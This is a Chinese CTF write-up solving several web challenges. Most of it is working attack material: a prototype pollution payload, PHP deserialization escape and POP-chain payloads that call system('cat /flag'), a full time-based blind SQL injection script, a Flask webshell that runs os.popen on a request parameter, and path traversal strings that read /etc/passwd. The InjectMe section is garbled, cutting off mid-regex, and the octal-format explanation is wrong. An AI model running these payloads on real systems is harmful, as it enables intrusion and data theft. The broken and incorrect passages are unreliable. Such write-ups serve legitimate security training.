而 route 目录下有三个文件：info.js sql.js submit.js。
那就审计一下 info.js 和 submit.js。
//info.js | |
// 导入 Koa Router 模块 | |
const Router = require("koa-router"); | |
// 创建 Koa Router 的新实例 | |
const router = new Router(); | |
// 导入 SQL 模块（假设这是一个自定义模块） | |
const SQL = require("./sql"); | |
// 创建 SQL 类的新实例，表名为 "wishes" | |
const sql = new SQL("wishes"); | |
// 导入 CONFIG 和 DEFAULT_CONFIG 模块 | |
const CONFIG = require("../config"); | |
const DEFAULT_CONFIG = require("../config.default"); | |
// 定义一个异步函数 getInfo，根据时间戳检索愿望数据 | |
async function getInfo(timestamp) { | |
// 检查时间戳是否为数字，否则使用当前时间戳 | |
timestamp = typeof timestamp === "number" ? timestamp : Date.now(); | |
// 移除在指定的最小公开时间之前的测试数据 | |
let minTimestamp = new Date(CONFIG.min_public_time || DEFAULT_CONFIG.min_public_time).getTime(); | |
timestamp = Math.max(timestamp, minTimestamp); | |
// 执行 SQL 查询以检索时间戳大于或等于提供的时间戳的愿望数据 | |
const data = await sql.all(`SELECT wishid, date, place, contact, reason, timestamp FROM wishes WHERE timestamp >= ?`, [timestamp]) | |
.catch(e => { throw e }); | |
// 返回检索到的数据 | |
return data; | |
} | |
// 处理 POST 请求到 "/info/:ts?" 端点 | |
router.post("/info/:ts?", async (ctx) => { | |
// 检查内容类型是否为 "application/x-www-form-urlencoded" | |
if (ctx.header["content-type"] !== "application/x-www-form-urlencoded") | |
return ctx.body = { | |
status: "error", | |
msg: "Content-Type 必须为 application/x-www-form-urlencoded" | |
} | |
// 如果请求参数中未提供时间戳，则设置默认值为 0 | |
if (typeof ctx.params.ts === "undefined") ctx.params.ts = 0; | |
// 从请求参数解析时间戳并进行验证 | |
const timestamp = /^[0-9]+$/.test(ctx.params.ts || "") ? Number(ctx.params.ts) : ctx.params.ts; | |
if (typeof timestamp !== "number") | |
return ctx.body = { | |
status: "error", | |
msg: "参数 ts 无效" | |
} | |
try { | |
// 调用 getInfo 函数根据提供的时间戳检索愿望数据 | |
const data = await getInfo(timestamp).catch(e => { throw e }); | |
// 发送包含检索到的数据的成功响应 | |
ctx.body = { | |
status: "success", | |
data: data | |
} | |
} catch (e) { | |
// 处理错误并发送错误响应 | |
console.error(e); | |
return ctx.body = { | |
status: "error", | |
msg: "内部服务器错误" | |
} | |
} | |
}) | |
// 导出该路由以供其他模块使用 | |
module.exports = router; |
说白了关键点就在这里：
// 移除在指定的最小公开时间之前的测试数据 | |
let minTimestamp = new Date(CONFIG.min_public_time || DEFAULT_CONFIG.min_public_time).getTime(); | |
timestamp = Math.max(timestamp, minTimestamp); |
这段代码用于确保时间戳 timestamp 不会早于指定的最小公开时间。首先，它从配置中获取最小公开时间（ CONFIG.min_public_time ），如果未定义，则使用默认配置中的值（ DEFAULT_CONFIG.min_public_time ）。然后，它将这个最小时间戳和传入的时间戳 timestamp 进行比较，取两者中较大的一个，确保最终的时间戳不会早于最小公开时间。
看了下 config.js，发现并没有配置 min_public_time，而 default_config.min_public_time 中有 min_public_time: "2019-07-09",
所以我们不能查看 2019-07-09 前的数据，因此我们的目的就是为了能够看到 2019-07-09 前的数据。
接下来就是找到能够进行原型链污染的地方，审计 submit.js:
//submit.js | |
// 导入 Koa Router 模块 | |
const Router = require("koa-router"); | |
// 创建 Koa Router 的新实例 | |
const router = new Router(); | |
// 导入 SQL 模块（假设这是一个自定义模块） | |
const SQL = require("./sql"); | |
// 创建 SQL 类的新实例，表名为 "wishes" | |
const sql = new SQL("wishes"); | |
// 导入 Base58 模块 | |
const Base58 = require("base-58"); | |
// 定义 Base58 编码使用的字符集 | |
const ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"; | |
// 生成指定长度的随机文本 | |
const rndText = (length) => { | |
return Array.from({ length }, () => ALPHABET[Math.floor(Math.random() * ALPHABET.length)]).join(''); | |
} | |
// 生成时间戳的文本表示，并进行一定的处理后返回 | |
const timeText = (timestamp) => { | |
timestamp = (typeof timestamp === "number" ? timestamp : Date.now()).toString(); | |
let text1 = timestamp.substring(0, timestamp.length / 2); | |
let text2 = timestamp.substring(timestamp.length / 2) | |
let text = ""; | |
for (let i = 0; i < text1.length; i++) | |
text += text1[i] + text2[text2.length - 1 - i]; | |
if (text2.length > text1.length) text += text2[0]; | |
return Base58.encode(rndText(3) + Buffer.from(text)); // 长度 = 20 | |
} | |
// 生成指定长度的随机 ID，包括时间戳的文本表示 | |
const rndID = (length, timestamp) => { | |
const t = timeText(timestamp); | |
if (length < t.length) return t.substring(0, length); | |
else return t + rndText(length - t.length); | |
} | |
// 插入数据到数据库的异步函数 | |
async function insert2db(data) { | |
let date = String(data["date"]), place = String(data["place"]), | |
contact = String(data["contact"]), reason = String(data["reason"]); | |
const timestamp = Date.now(); | |
const wishid = rndID(24, timestamp); | |
await sql.run(`INSERT INTO wishes (wishid, date, place, contact, reason, timestamp) VALUES (?, ?, ?, ?, ?, ?)`, | |
[wishid, date, place, contact, reason, timestamp]).catch(e => { throw e }); | |
return { wishid, date, place, contact, reason, timestamp } | |
} | |
// 合并两个对象的函数 | |
const merge = (dst, src) => { | |
if (typeof dst !== "object" || typeof src !== "object") return dst; | |
for (let key in src) { | |
if (key in dst && key in src) { | |
dst[key] = merge(dst[key], src[key]); | |
} else { | |
dst[key] = src[key]; | |
} | |
} | |
return dst; | |
} | |
// 处理 POST 请求到 "/submit" 端点 | |
router.post("/submit", async (ctx) => { | |
// 检查内容类型是否为 "application/json" | |
if (ctx.header["content-type"] !== "application/json") | |
return ctx.body = { | |
status: "error", | |
msg: "Content-Type 必须为 application/json" | |
} | |
// 获取请求体中的原始 JSON 数据，如果为空则默认为一个空对象 | |
const jsonText = ctx.request.rawBody || "{}"; | |
try { | |
// 解析 JSON 数据 | |
const data = JSON.parse(jsonText); | |
// 检查参数的有效性 | |
if (typeof data["contact"] !== "string" || typeof data["reason"] !== "string") | |
return ctx.body = { | |
status: "error", | |
msg: "Invalid parameter" | |
} | |
if (data["contact"].length <= 0 || data["reason"].length <= 0) | |
return ctx.body = { | |
status: "error", | |
msg: "Parameters contact and reason cannot be empty" | |
} | |
// 定义默认参数 | |
const DEFAULT = { | |
date: "unknown", | |
place: "unknown" | |
} | |
// 调用插入到数据库的异步函数，将数据插入到数据库 | |
const result = await insert2db(merge(DEFAULT, data)); | |
// 发送包含成功响应和插入的数据的响应 | |
ctx.body = { | |
status: "success", | |
data: result | |
}; | |
} catch (e) { | |
// 处理错误并发送错误响应 | |
console.error(e); | |
ctx.body = { | |
status: "error", | |
msg: "Internal Server Error" | |
} | |
} | |
}) | |
// 导出该路由以供其他模块使用 | |
module.exports = router; |
可以在这里看到注入点：
const merge = (dst, src) => { | |
if (typeof dst !== "object" || typeof src !== "object") return dst; | |
for (let key in src) { | |
if (key in dst && key in src) { | |
dst[key] = merge(dst[key], src[key]); | |
} else { | |
dst[key] = src[key]; | |
} | |
} | |
return dst; | |
} | |
// 调用插入到数据库的异步函数，将数据插入到数据库 | |
const result = await insert2db(merge(DEFAULT, data)); |
只要考虑注入 data['__proto__']['min_public_time'] 的值即可
构造 payload:
POST /submit HTTP/1.1 | |
Host: ea7a79c9-28eb-4d7c-b50c-08347f75dffa.node4.buuoj.cn:81 | |
Referer: http://ea7a79c9-28eb-4d7c-b50c-08347f75dffa.node4.buuoj.cn:81/ | |
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36 | |
Content-Type: application/json | |
Accept: */* | |
Accept-Language: zh-CN,zh;q=0.9 | |
Accept-Encoding: gzip, deflate | |
Origin: http://ea7a79c9-28eb-4d7c-b50c-08347f75dffa.node4.buuoj.cn:81 | |
Content-Length: 81 | |
{"date":"12","place":"12","contact":"21","reason":"12","timestamp":1699615187967,"__proto__":{"min_public_time":"1001-01-01"}} |
直接让其等于 1001-01-01, 再访问 /info/ 界面就可以看到：
{ | |
"wishid": "2ma2TNsiQRmchxySEYefyRjm", | |
"date": "2021-09-27", | |
"place": "学園都市", | |
"contact": "御坂美琴", | |
"reason": "海胆のような顔をしたあいつが大覇星祭で私に負けた、彼を連れて出かけるつもりだ。彼を携帯店のカップルのイベントに連れて行きたい（イベントでプレゼントされるゲコ太は超レアだ！）晴れの日が必要で、彼を完全にやっつける！ゲコ太の抽選番号はflag{89310f17-3405-49bb-89ef-c41dcffc0332}です", | |
"timestamp": 1190726040548 | |
}, |
验证一下时间戳：1190726040 2007-09-25 21:14:00
和理想一样。
# Week4
# 逃
题目：
<?php | |
highlight_file(__FILE__); | |
function waf($str){ | |
return str_replace("bad","good",$str); | |
} | |
class GetFlag { | |
public $key; | |
public $cmd = "whoami"; | |
public function __construct($key) | |
{ | |
$this->key = $key; | |
} | |
public function __destruct() | |
{ | |
system($this->cmd); | |
} | |
} | |
unserialize(waf(serialize(new GetFlag($_GET['key'])))); |
典型的 php 反序列化字符串逃逸，可以参考这篇文章：
PHP 反序列化字符逃逸详解
这里直接借用官方 wp 的解释了，讲的真的很好！
- 解题步骤
本题考查字符变长的情况，主要关注点在于：
function waf($str){
return str_replace("bad","good",$str);
}
这里我们可控的只有 key 的值，因此需要通过这里的字符长度的变化来修改序列化字符串，从而实现对于 cmd 值的控制。
举个栗子，在本题中如果我们传入 badbad，正常输出的序列化字符串如下：
O:7:"GetFlag":2:
但是经过 waf 函数的替换后实际上传递给 unserialize 函数的字符串变成了：
O:7:"GetFlag":2:
注意这里的
s:6:"goodgood";
PHP 在扫描序列化字符串的时候会根据字符串长度进行扫描，也就是此时只会扫描到 goodgo
而多出的 od" 字符就会被抛弃，当然，此时的序列化字符串也因为这个原因变得不合法，因此我们需要利用这个特点来构造出合法的字符串去修改 cmd 的值。
例如我们想要构造的是：
O:7:"GetFlag":2:{s:3:"key";s:N:"N 个长度的字符串";s:3:"cmd";s:2:"ls";}";s:3:"cmd";s:6:"whoami";}
实际上我们输入的是：
N 个长度的字符串 ";s:3:"cmd";s:2:"ls";}
也就是说
";s:3:"cmd";s:2:"ls";}
就是我们想要逃逸出去的字符，我们希望 N 个长度的字符串的长度恰好到双引号之前，此时我们的输入就会作为合法的序列化数据进行处理，后续原本的 ";s:3:"cmd";s:6:"whoami";} 就会被丢弃。
我们需要插入的字符总共有 22 位，因此需要逃逸出 22 个字符，一个 bad 可以逃逸出 1 个字符，因此需要 22 个 bad，构造 Exp 如下：
?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:2:"ls";}
此时实际上的反序列化数据是：
O:7:"GetFlag":2:{s:3:"key";s:88:"goodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgoodgood";s:3:"cmd";s:2:"ls";}";s:3:"cmd";s:6:"whoami";}
good 的长度正好为 88，而 ";s:3:"cmd";s:6:"whoami";} 这一段数据就会被抛弃，由此完成了对于 cmd 值的修改。
顺着这个思路只需要计算需要逃逸的字符数量即可：
?key=badbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbadbad";s:3:"cmd";s:9:"cat /flag";}
# More Fast
题目：
<?php | |
highlight_file(__FILE__); | |
class Start{ | |
public $errMsg; | |
public function __destruct() { | |
die($this->errMsg); | |
} | |
} | |
class Pwn{ | |
public $obj; | |
public function __invoke(){ | |
$this->obj->evil(); | |
} | |
public function evil() { | |
phpinfo(); | |
} | |
} | |
class Reverse{ | |
public $func; | |
public function __get($var) { | |
($this->func)(); | |
} | |
} | |
class Web{ | |
public $func; | |
public $var; | |
public function evil() { | |
if(!preg_match("/flag/i",$this->var)){ | |
($this->func)($this->var); | |
}else{ | |
echo "Not Flag"; | |
} | |
} | |
} | |
class Crypto{ | |
public $obj; | |
public function __toString() { | |
$wel = $this->obj->good; | |
return "NewStar"; | |
} | |
} | |
class Misc{ | |
public function evil() { | |
echo "good job but nothing"; | |
} | |
} | |
$a = @unserialize($_POST['fast']); | |
throw new Exception("Nope"); | |
Fatal error: Uncaught Exception: Nope in /var/www/html/index.php:55 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 55 |
本题的 pop 链很简单：
Start::__destruct -> Crypto::__toString -> Reverse::__get -> Pwn::__invoke -> Web::evil
难点在于这个 throw new Exception ("Nope"); 抛出异常提前结束 destruct 函数，
关于如何绕过可以参考这篇文章：
php (phar) 反序列化漏洞及各种绕过姿势
payload:
<?php | |
class Start{ | |
public $errMsg; | |
} | |
class Pwn{ | |
public $obj; | |
} | |
class Reverse{ | |
public $func; | |
} | |
class Web{ | |
public $func='system'; | |
public $var="cat /fl*"; | |
} | |
class Crypto{ | |
public $obj; | |
} | |
class Misc{ | |
} | |
$a = new Start(); | |
$a -> errMsg = new Crypto(); | |
$a -> errMsg -> obj = new Reverse(); | |
$a -> errMsg -> obj -> func = new Pwn(); | |
$a -> errMsg -> obj -> func -> obj = new Web(); | |
$b = array($a,null); | |
$c = serialize($b); | |
echo $c; |
得到：
a:2:{i:0;O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:6:"system";s:3:"var";s:8:"cat /fl*";}}}}}i:1;N;}
把 i:1;N 改成 i:0;N，或者 i:0;O 给成 i:1;O
a:2:{i:0;O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:6:"system";s:3:"var";s:8:"cat /fl*";}}}}}i:0;N;}
传参后得到 flag。
# midsql
老朋友了，这次是：sql 时间盲注 + 过滤了空格
测试输入框，发现过滤了空格，其他没有过滤，页面没有回显
preg_match("/( |\n|\x0a)/is", $_REQUEST["id"]) ||
preg_match("/[=\x09\xa0\x0a\x0b\x0c\x0d\x0e]/", $_REQUEST["id"])
使用 /**/ 即可进行时间盲注
这里可以直接参考官方 wp:
import requests | |
import re | |
import copy | |
class Gadget(): | |
def __enter__(self): | |
return self | |
def __exit__(self, exc_type, exc_val, exc_tb): | |
return | |
def str2hex(self, string: str): | |
result = '' | |
for c in string: | |
result += hex(ord(c)) | |
return '0x' + result.replace('0x', '') | |
def get_char_ascii(self, string: str, index): | |
method1 = f'(Ord(right(left({string},{index}),1)))' | |
method2 = f'(Ord(substr({string}/**/from/**/{index}/**/for/**/1)))' | |
method3 = f'(Ord(sUbstr({string} frOm {index} fOr 1)))' | |
return method2 | |
def table_name_in_db(self): | |
s1 = '(Select(group_concat(table_name))from(mysql.innodb_table_stats)where((database_name)/**/in/**/(dAtabase())))' | |
s2 = '(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)/**/in/**/(dAtabase())))' | |
s3 = '(Select(group_coNcat(table_name))frOm(infOrmation_schema.tables)wHere((table_schema)In(dAtabase())))' | |
return s3 | |
def table_name_in_db2(self, schema_name): | |
s1 = '(Select(group_concat(table_name))from(mysql.innodb_table_stats)where((database_name)/**/in/**/(dAtabase())))' | |
s2 = '(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)/**/in/**/(dAtabase())))' | |
s3 = f"(Select(group_coNcat(table_name))frOm(infOrmation_schema.tables)wHere((table_schema)In('{schema_name}')))" | |
return s3 | |
def db_names(self): | |
s1 = '(Select(group_concat(table_name))from(mysql.innodb_table_stats)where((database_name)/**/in/**/(dAtabase())))' | |
s2 = '(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)/**/in/**/(dAtabase())))' | |
s3 = f"(sElect(group_coNcat(sChema_name))from(information_schema.schemata))" | |
return s3 | |
def column_name_in_table(self, table_name: str): | |
s1 = f"(select(group_concat(column_name))from(infOrmation_schema.columns)where(table_name)in('{table_name}'))" | |
s2 = f"(sElect(group_cOncat(Column_name))frOm(infOrmation_schema.cOlumns)wHere(table_name)In({self.str2hex(table_name)}))" | |
return s2 | |
def column_value_in_table(self, table_name: str, column_name: str): | |
s1 = f"(sElect(grOup_cOncat({column_name}))frOm({table_name}))" | |
return s1 | |
def get_len(self, function, *args, **kwargs): | |
s1 = f'(lenGth({function(*args, **kwargs)}))' | |
return s1 | |
def ascii_equal(self, asc, i): | |
s1 = f"(({asc})in({i}))" | |
return s1 | |
def len_equal(self, length, i): | |
s1 = f"(({length})in({i}))" | |
return s1 | |
def ascii_greater(self, asc, i): | |
s1 = f"(leAst({asc},{i})in({i}))" | |
return s1 | |
def judge(self, cond): | |
s2 = f"Elt(({cond})+1,sLeep(1),0)" | |
s1 = f"(iF(({cond}),sLeep(1),0))" | |
return s1 | |
class Injector(): | |
def __init__(self, url, method, inject_param, data=None, debug=True): | |
self.url = url | |
self.method = method | |
self.data = data | |
self.inject_param = inject_param | |
self.debug = debug | |
self.gadget = Gadget() | |
def condition(self, res): | |
if res.elapsed.total_seconds() > 1: | |
return True | |
return False | |
def handle_value(self, function, *args, **kwargs): | |
result = '' | |
data = copy.deepcopy(self.data) | |
for _time in range(200): | |
print("time:%d" % (_time + 1)) | |
left = 32 | |
right = 128 | |
updated = False | |
while right > left: | |
mid = (left + right) // 2 | |
with self.gadget as g: | |
data[self.inject_param] = self.data[self.inject_param].replace('XXXXX', g.judge( | |
g.ascii_equal(g.get_char_ascii(function(*args, **kwargs), _time + 1), mid))) | |
res = None | |
if self.method == 'get': | |
res = requests.get(self.url, data) | |
if self.debug: | |
print(res.request.url) | |
print(res.text) | |
else: | |
res = requests.post(self.url, data) | |
if self.debug: | |
print(res.text) | |
if self.condition(res): | |
result += chr(mid) | |
print(result) | |
updated = True | |
break | |
else: | |
with self.gadget as g: | |
data[self.inject_param] = self.data[self.inject_param].replace('XXXXX', g.judge( | |
g.ascii_greater(g.get_char_ascii(function(*args, **kwargs), _time + 1), mid))) | |
res = None | |
if self.method == 'get': | |
res = requests.get(self.url, data) | |
else: | |
res = requests.post(self.url, data) | |
if self.debug: | |
print(res.text) | |
if self.condition(res): | |
left = mid | |
else: | |
right = mid | |
if not updated: | |
break | |
def handle_len(self, function, *args, **kwargs): | |
data = copy.deepcopy(self.data) | |
for _time in range(1, 200): | |
print("time:%d" % (_time)) | |
with self.gadget as g: | |
data[self.inject_param] = self.data[self.inject_param].replace('XXXXX', g.judge( | |
g.len_equal(g.get_len(function, *args, **kwargs), _time))) | |
res = None | |
if self.method == 'get': | |
res = requests.get(self.url, data) | |
if self.debug: | |
print(res.request.url) | |
print(res.text) | |
else: | |
res = requests.post(self.url, data) | |
if self.debug: | |
print(res.text) | |
if self.condition(res): | |
print(_time) | |
break | |
if __name__ == '__main__': | |
g = Gadget() | |
result = '' | |
url = 'http://22efcf95-b1f0-43bb-ae25-a76d1371153b.node4.buuoj.cn:81/' | |
inject_param = 'id' | |
data = {'id': "1/**/Or/**/XXXXX#"} | |
inj = Injector(url, method='get', inject_param=inject_param, data=data) | |
# 获取数据库列表 | |
# inj.handle_value(g.db_names) | |
# information_schema, mysql, performance_schema, sys, test, ctf | |
# 根据数据库获取表名 | |
# inj.handle_value(g.table_name_in_db2, 'ctf') | |
# items | |
# 获取表的字段 | |
# inj.handle_value(g.column_name_in_table, 'items') | |
# id, name, price | |
# 最后取数据 | |
inj.handle_value(g.column_value_in_table, 'ctf.items', 'name') |
# flask disk
做之前可以看下这篇文章了解下 flask 的 debug 模式。
从一道 ctf 题谈谈 flask 开启 debug 模式存在的安全问题
访问 admin manage 发现要输入 pin 码，说明 flask 开启了 debug 模式。
flask 开启了 debug 模式下，app.py 源文件被修改后会立刻加载。
所以只需要上传一个能 rce 的 app.py 文件把原来的覆盖，就可以了。注意语法不能出错，否则会崩溃。
#app.py | |
from flask import Flask,request | |
import os | |
app = Flask(__name__) | |
@app.route('/') | |
def index(): | |
try: | |
cmd = request.args.get('cmd') | |
data = os.popen(cmd).read() | |
return data | |
except: | |
pass | |
return "1" | |
if __name__=='__main__': | |
app.run(host='0.0.0.0',port=5000,debug=True) |
# InjectMe
目录穿越 + session 伪造 + SSTI bypass
这题目我的评价是真不错。
首先进入题目是一张图片，点击图片可进入 /cancanneed 目录，内容如下：
['.DS_Store', '1.jpg', '10.jpg', '11.jpg', '110.jpg', '3.jpg', '4.jpg', '5.jpg', '6.jpg', '7.jpg', '8.jpg', '9.jpg']
/cancanneed?file=1.jpg
点击 /cancanneed?file=1.jpg，进入后发现：download 1.jpg
图片可以下载，观察到 url 变为了 /download?file=1.jpg
很明显有敏感文件泄露，尝试一番后无果，应该是因为有过滤的原因，那就看看它给的其它图片里有啥，最终在 110.jpg 中看到提示：

可以看到对传递进来的 file 参数进行了../ 单次替换，然后拼接，最后下载文件，由于只进行了一次替换成空，所以可以绕过，下面提供一种方式，然后加上 dockerfile 泄露的目录，可以猜到运行文件，以及后面审计源码，发现 config 文件：
..././..././..././etc/passwd
..././..././..././app/app.py
..././..././..././app/config.py
#app.py | |
import os | |
import re | |
from flask import Flask, render_template, request, abort, send_file, session, render_template_string | |
from config import secret_key | |
app = Flask(__name__) | |
app.secret_key = secret_key | |
@app.route('/') | |
def hello_world(): # put application's code here | |
return render_template('index.html') | |
@app.route("/cancanneed", methods=["GET"]) | |
def cancanneed(): | |
all_filename = os.listdir('./static/img/') | |
filename = request.args.get('file', '') | |
if filename: | |
return render_template('img.html', filename=filename, all_filename=all_filename) | |
else: | |
return f"{str(os.listdir('./static/img/'))} <br> <a href=\"/cancanneed?file=1.jpg\">/cancanneed?file=1.jpg</a>" | |
@app.route("/download", methods=["GET"]) | |
def download(): | |
filename = request.args.get('file', '') | |
if filename: | |
filename = filename.replace('../', '') | |
filename = os.path.join('static/img/', filename) | |
print(filename) | |
if (os.path.exists(filename)) and ("start" not in filename): | |
return send_file(filename) | |
else: | |
abort(500) | |
else: | |
abort(404) | |
@app.route('/backdoor', methods=["GET"]) | |
def backdoor(): | |
try: | |
print(session.get("user")) | |
if session.get("user") is None: | |
session['user'] = "guest" | |
name = session.get("user") | |
if re.findall( | |
r'__|<!--swig0-->\"".format(secret_key,payload) | |
session_data = subprocess.call(command, shell=True) |
这道题目的坑就在于如何处理 '\' 和双引号，转义字符很好理解，由于要运行两次 python 代码，所以需要四个，而双引号有两种转义方式，一种是 \\\"，另一种是 \"\"。
在编程语言中，双引号（"）通常用来表示字符串。在这种情况下，如果你需要在字符串中包含双引号本身，你需要对其进行转义，以告诉解释器这是一个普通字符而不是字符串的结束标志。在大部分编程语言中，使用双引号来表示字符串时，如果你想要在字符串中包含一个双引号字符，你需要使用转义字符（\）来转义它，即使用双引号对其进行转义，让解释器知道这是一个字符而不是字符串的结束。
在一些特定的情况下，比如构造 payload 用于利用漏洞或者在某些环境中执行代码时，需要特定格式的字符串。这可能需要多重转义，以确保最终的字符串在被解释执行时能够得到正确的解析。
因此，两个双引号（""）的出现可能是为了在字符串中包含一个双引号字符，并且确保它在最终被解释执行时被视为普通字符而不是字符串的结束。
假设我们有一个字符串，要在其中包含双引号，并将其打印出来。在大多数编程语言中，如果我们想要打印 "Hello, "World" 这个字符串，但我们并不想让双引号被解释为字符串的结束符，而是要作为字符串的一部分。在这种情况下，我们需要对双引号进行转义。
在 Python 中的示例：
pythonCopy code# 我们想要打印的字符串包含了双引号 | |
my_string = "\"Hello, \\\"World\\\"\"" | |
# 将字符串打印出来 | |
print(my_string) |
这个例子中， my_string 变量中包含了双引号，并使用了另一个双引号进行转义。如果我们直接使用 "Hello, "World"" 这种写法，Python 解释器会将第一个双引号解释为字符串开始，然后 Hello, 作为字符串内容，而在碰到第二个双引号时会将其解释为字符串的结束，导致语法错误。通过使用双引号进行转义，Python 解释器知道第二个双引号不是用于结束字符串，而是作为字符串的一部分。
将伪造的 session 传入即可，然后下面是官方 wp：
它的解法和我的区别就是在绕过。上，它是使用 attr 来绕过
https://shimo.im/docs/gXqmdVvbOEsXpo3o/read
这里再说下这种写法：
def string_to_octal_ascii(s): | |
octal_ascii = "" | |
for char in s: | |
char_code = ord(char) | |
octal_ascii += "\\\\" + format(char_code, '03o') | |
# octal_ascii += "\\\\" + format(char_code, 'o') | |
return octal_ascii |
这种写法是 Python 中字符串格式化的一种方式，它使用了 format() 方法来将数值转换为指定格式的字符串。
在这个例子中， format(char_code, '03o') 的含义如下：
char_code是一个整数变量，可能是字符的 Unicode 编码值。'03o'是格式化字符串的格式说明符。o表示将整数转换为八进制形式。03表示生成的八进制字符串最少包含 3 位数字。如果不足 3 位，则在左侧用零进行填充。
举个例子，如果 char_code 的值为 97（对应小写字母 'a' 的 Unicode 编码值），使用 '03o' 格式化后，就会生成字符串 '141' 。其中 1 代表八进制中的数值 1，而前面的 14 则是将 97 转换为八进制后得到的结果。这个格式化操作确保了生成的八进制字符串至少包含 3 位数字。
涨姿势了......